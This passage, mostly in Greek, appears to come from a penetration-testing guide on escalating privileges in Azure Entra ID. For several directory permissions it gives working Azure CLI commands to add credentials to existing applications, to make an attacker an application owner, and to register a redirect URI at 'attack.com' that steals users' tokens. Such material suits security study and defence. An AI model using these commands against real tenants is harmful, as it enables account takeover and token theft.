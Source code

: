 ### `microsoft.directory/applications/credentials/update`

Αυτό επιτρέπει σε έναν επιτιθέμενο να **προσθέσει διαπιστευτήρια** (κωδικούς πρόσβασης ή πιστοποιητικά) σε υπάρχουσες εφαρμογές. Εάν η εφαρμογή έχει προνομιακές άδειες, ο επιτιθέμενος μπορεί να αυθεντικοποιηθεί ως αυτή η εφαρμογή και να αποκτήσει αυτά τα προνόμια.
```bash
# Generate a new password without overwritting old ones
az ad app credential reset --id <appId> --append
# Generate a new certificate without overwritting old ones
az ad app credential reset --id <appId> --create-cert
```
### `microsoft.directory/applications.myOrganization/credentials/update`

Αυτό επιτρέπει τις ίδιες ενέργειες όπως το `applications/credentials/update`, αλλά περιορίζεται σε εφαρμογές μίας μόνο διεύθυνσης.
```bash
az ad app credential reset --id <appId> --append
```
### `microsoft.directory/applications/owners/update`

Με την προσθήκη του εαυτού τους ως ιδιοκτήτη, ένας επιτιθέμενος μπορεί να χειριστεί την εφαρμογή, συμπεριλαμβανομένων των διαπιστευτηρίων και των δικαιωμάτων.
```bash
az ad app owner add --id <AppId> --owner-object-id <UserId>
az ad app credential reset --id <appId> --append

# You can check the owners with
az ad app owner list --id <appId>
```
### `microsoft.directory/applications/allProperties/update`

Ένας επιτιθέμενος μπορεί να προσθέσει μια URI ανακατεύθυνσης σε εφαρμογές που χρησιμοποιούνται από τους χρήστες του ενοικιαστή και στη συνέχεια να μοιραστεί μαζί τους διευθύνσεις URL σύνδεσης που χρησιμοποιούν τη νέα διεύθυνση ανακατεύθυνσης προκειμένου να κλέψει τα διακριτικά τους. Σημειώστε ότι αν ο χρήστης ήταν ήδη συνδεδεμένος στην εφαρμογή, η αυθεντικοποίηση θα είναι αυτόματη χωρίς να χρειάζεται ο χρήστης να αποδεχτεί οτιδήποτε.

Σημειώστε ότι είναι επίσης δυνατό να αλλάξετε τις άδειες που ζητά η εφαρμογή προκειμένου να αποκτήσετε περισσότερες άδειες, αλλά σε αυτή την περίπτωση ο χρήστης θα χρειαστεί να αποδεχτεί ξανά την προτροπή που ζητά όλες τις άδειες.
```bash
# Get current redirect uris
az ad app show --id ea693289-78f3-40c6-b775-feabd8bef32f --query "web.redirectUris"
# Add a new redirect URI (make sure to keep the configured ones)
az ad app update --id <app-id> --web-redirect-uris "https://original.com/callback https://attack.com/callback"
```
## Service Principals

### `microsoft.directory/servicePrincipals/credentials/update`
